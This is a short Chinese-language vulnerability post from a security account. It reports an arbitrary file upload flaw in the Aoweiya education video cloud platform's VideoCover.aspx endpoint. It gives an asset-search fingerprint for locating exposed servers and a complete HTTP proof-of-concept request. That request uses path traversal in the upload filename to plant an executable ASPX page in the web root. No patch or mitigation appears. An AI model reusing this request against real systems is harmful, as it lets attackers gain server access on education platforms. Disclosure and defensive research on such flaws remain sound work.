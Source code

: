 #  奥威亚教育视频云平台VideoCover存在任意文件上传漏洞   
原创 骇客安全  骇客安全   2025-01-22 16:01  
  
**一、漏洞简介**  
  
奥威亚教育视频云平台是  
一种教育技术解决方案，致力于提供高质量的在线教育视频服务。该平台为教育机构和教师提供了一个全面的视频管理和交流平台。奥威亚教育视频云平台VideoCover存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。  
**二、影响版本**  
  
奥威亚教育视频云平台  
**三、资产测绘**  
  
hunter  
  
web.body="/CSS/NewtonTheme/assets/app.css"  
  
特征  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IePibcXn991OZlBNZAUeDWz8BhKeUsibldcBpKaiaSIyVRoBtOwkmkCHncuWVicIbR3c3L14MiaJkicxnrqmv6yOum0g/640?wx_fmt=other&from=appmsg "")  
  
**四、漏洞复现**  
```
POST/Tools/Video/VideoCover.aspx HTTP/1.1
User-Agent: Mozilla/5.0(Macintosh;IntelMacOSX10.15;rv:120.0)Gecko/20100101Firefox/120.0
Content-Type: multipart/form-data;boundary=00content0boundary00
Host: xx.xx.xx.xx
Accept: text/html,image/gif,image/jpeg,*;q=.2,*/*;q=.2
Content-Length: 301
Connection: close

--00content0boundary00
Content-Disposition: form-data;name="file";filename="/../../../AVA.ResourcesPlatform.WebUI/stc.aspx"
Content-Type: image/png

<%@ PageLanguage="C#"%>
<%Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath));%>
--00content0boundary00--
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IePibcXn991OZlBNZAUeDWz8BhKeUsibldK080LupnNtOWNJN3JYYsjcZMenjuJx34IMqkaAYmhjVjPV1iarJIt1A/640?wx_fmt=other&from=appmsg "")  
  
  
上传文件位置  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IePibcXn991OZlBNZAUeDWz8BhKeUsibldF9EQuyaUrr6NtxsyfqibZ0sSePa0BgEIqdUuuLI1OzWrL81KTib1ZScw/640?wx_fmt=other&from=appmsg "")  
  
  
  
